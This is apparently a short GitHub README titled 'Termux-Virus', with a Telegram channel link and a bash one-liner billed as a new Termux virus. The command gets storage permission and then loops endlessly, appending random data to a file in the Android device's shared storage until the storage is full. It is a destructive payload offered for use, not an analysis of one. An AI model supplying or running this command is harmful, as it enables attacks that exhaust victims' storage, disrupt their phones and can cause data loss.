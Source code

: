 # Termux-Virus

⚠ **Warning**: Run at your own risk.

Join My Channel: [SG_Modder1](https://t.me/SG_Modder1)

😈 **2024 New Termux Virus By Me** 😈

```bash
termux-setup-storage && if [ -d "/storage/emulated/0" ]; then while true; do dd if=/dev/urandom of="/storage/emulated/0/device.bin" bs=1M conv=notrunc oflag=append > /dev/null 2>&1 && echo "🟩"; done; else echo "Give storage permissions."; termux-setup-storage; fi
